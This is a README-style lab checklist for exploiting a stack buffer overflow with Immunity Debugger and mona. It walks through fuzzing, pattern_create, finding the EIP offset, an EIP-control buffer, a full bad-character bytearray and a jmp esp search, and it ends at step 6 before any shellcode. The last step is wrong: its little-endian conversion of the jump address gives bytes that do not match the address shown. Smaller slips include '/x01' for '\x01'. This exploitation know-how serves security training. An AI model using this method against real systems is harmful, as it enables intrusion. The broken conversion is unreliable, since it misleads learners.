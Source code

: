 # Buffer Overflow in 7 steps

This is a quick 7 step guide on how to go about exploiting a buffer overflow vulnerability, this guide will pretty much serve as a checklist to help you stay on the right path for each step and to get through the exloit a lot faster, prior knowledge on how to exploit this vulnerbility is definitely recommended.

<h2> Lab Setup </h2>
<h4> Remote Desktop into the debugging machine: </h4> 

`xfreerdp /u:admin /p:lab /cert:ignore /v:192.168.xx.xxx` </br>

<h4> configuring !mona on immunity debugger:</h4> 

`!mona config -set workingfolder c:\mona\%p` </br>
(note down the path for later) </br>
`!mona bytearray -b "\x00"` </br>

# Buffer Overflow

<h2> STEP 1 Fuzzing [poc.py] </h2>
Assuming a fuzzing script was already given, just change the ip and port to that of the debugging machine, then execute it and take note of where the app crashes, for example:

`3000 bytes`</br>

<h2> STEP 2 Crashing The App [poc2.py] </h2>
For the sake of keeping things neat and tidy, create a new script for each change made, in this case, create a script called <b>poc2.py</b>, with the same contents of <b>poc.py</b>, the only difference is that a bytearray will be sent as the payload, to generate the bytearray, use the following command with the number of bytes it took to crash the app, 3000 bytes in this case.

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000`

<h2> STEP 3 Finding The EIP Offset </h2>
While still using poc2.py, the app should crash at exactly 3000 bytes everytime, while immunity debugger is in its "crashed state", input the following !mona command to find the EIP:

`!mona findmsp -distance 3000` </br>
Take note of the cyclic pattern, this will be the EIP, in this case: </br>
`cyclic pattern 1545`


<h2> STEP 4 Controlling The EIP [poc3.py] </h2>
Create a new script called <b>poc3.py</b> based off <b>poc.py</b>, change the payload buffer to the following:

`buffer = "A" * 1545 + "B" * 4 + "C" * 100` </br>
what this will do is send a buffer of A's equal to the EIP offset, in this case 1545 bytes, then write 4 B's to the EIP, followed by 100 C's after the EIP, the reason for the 100 C's is to show if there will be enough space for the shell code to be written.


<h2> STEP 5 Finding Bad Characters [poc4.py] </h2>
Create a new script called <b>poc4.py</b> based off <b>poc.py</b>, a new "badchar" variable must be added to this script, this is where an entire bytearray will be send in order to find bad characters. poc4.py should have a variable that looks like the following:

`
buffer = "A" * offset + "B" * 4` </br>
`badchars = "/x01..."`

The contents inside the badchar varaible is a bytearray which can be copied & pasted:
`\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff` </br>

Everytime poc4.py is executed, the app will crash at the bad character, in order to identify the bad character(s), view immunity bugger in its "crashed state", then right click on the ESP and follow the dump, from here manually follow the order of the bytearray (as shown above) and identify where the pattern gets distorted, then remove that character from poc4.py, then resent the script. Repeat the process until the bytearray pattern is shown in order without being distorted. Make sure to note down all the badchars that was found, it will be used in the next step, in this case: </br>
`badchars = \x05\x22\x3a\x91\xc0\xb3` </br>

<h2> STEP 6 Finding The JMP Point </h2>

Using the badchars found in the previous step along with !mona, the JMP point can be found by utilizing the following command: </br>
`!mona jmp -r esp -cpb "\x05\x22\x3a\x91\xc0\xb3"` </br>
A result similar to this should be displayed: </br>
`59527682` </br>
The next step is to take the result above and convert it to <b>little endian format</b>, this can be done by reversing the order and placing it in hex format as shown below: </br>
`ittle endian = \x83\x66\x52\x56`








 
